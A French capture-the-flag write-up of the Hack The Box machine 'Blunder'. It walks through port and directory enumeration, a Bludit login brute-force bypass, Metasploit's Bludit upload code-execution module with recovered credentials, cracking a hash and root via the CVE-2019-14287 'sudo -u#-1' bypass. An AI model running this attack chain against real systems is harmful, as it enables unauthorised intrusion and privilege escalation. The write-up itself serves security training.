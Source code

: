 ![Pic1](../img/blunder1.PNG?raw=true) </br>

# Introduction

Blunder est une machine linux dont l'adresse IP est 10.10.10.191.</br>
Compétences mises en oeuvre :
* Enumération des ports et services d'une machine distante.
* Enumération des fichiers et dossiers d'un site web.
* Recherche d'exploit.
* Elevation par CVE-2019-14287
</br>

# Enumération initiale
Nous commençons par l'énumération des services et ports de la box avec nmap :
```bash
$ nmap -T4 -A 10.10.10.191
```
![Pic2](../img/blunder2.PNG?raw=true) </br>
Un port FTP et un port 80, nous allons faire l'énumération classique du port 80 avec dirsearch :
```bash
$ dirsearch -w wordlist -e "php,txt" -f -t 200 -x 400,403,404,500 -u http://10.10.10.191/
```
![Pic3](../img/blunder3.PNG?raw=true) </br>

# Obtenir un accès utilisateur
La page install.php contient :</br>
![Pic4](../img/blunder4.PNG?raw=true) </br>
La page todo.txt contient :</br>
![Pic5](../img/blunder5.PNG?raw=true) </br>
Nous savons donc plusieurs choses :
* Le cms Bludit est installé mais pas mis à jour.
* Le ftp est off.
* Les anciens users sont supprimés.
* Il y a un utilisateur fergus.
Nous pouvons alors chercher un exploit pour Bludit :
```bash
$ searchsploit bludit
```
![Pic6](../img/blunder6.PNG?raw=true) </br>
Le premier : Authentication Bruteforce Mitigation Bypass a un POC sur un site :</br>
https://rastating.github.io/bludit-brute-force-mitigation-bypass/
</br>
Pour l'exécuter, il nous faut un user et une liste de mot de passe, nous avons vu l'utilisateur fergus mais pas de mot de passe, nous allons utiliser l'outil cewl.</br>
Cewl est un tool qui créer une wordlist des mots provenants d'un site web :
```bash
$ cewl http://10.10.10.191 -w wordlist_htb.txt
```
On utilise la liste pour l'exploit :
```bash
$ python3 POC.py
```
![Pic7](../img/blunder7.PNG?raw=true) </br>
Nous allons continuer sur metasploit pour la suite :
```bash
$ msfconsole
msf > search bludit
msf > use exploit/linux/http/bluedit_upload_images_exec
msf > set bluditpass RolandDeschain
msf > set bludituser fergus
msf > set rhosts 10.10.10.191
msf > run
```
![Pic8](../img/blunder8.PNG?raw=true) </br>
Nous avons un shell en tant que www-data. Si on se déplace dans le répertoire parent, il y a un dossier nommé "database" avec un fichier
contenant un hash de l'admin:</br>
![Pic9](../img/blunder9.PNG?raw=true) </br>
Le hash est du SHA1, qui une fois décodé donne : Password120.</br>
Ce dernier fonctionnera avec l'utilisateur hugo, ce qui nous permet de récupérer le user.txt :
```bash
$ su hugo
$ id
$ cat /home/hugo/user.txt
```
![Pic10](../img/blunder10.PNG?raw=true) </br>

# Obtenir un accès administrateur
Pour l'élèvation de privilège, très simple, on vérifie nos droits et on voit la faille qui correspond à la CVE CVE-2019-14287 :
```bash
$ sudo -l 
$ sudo -u#-1 /bin/bash
```
![Pic11](../img/blunder11.PNG?raw=true) </br>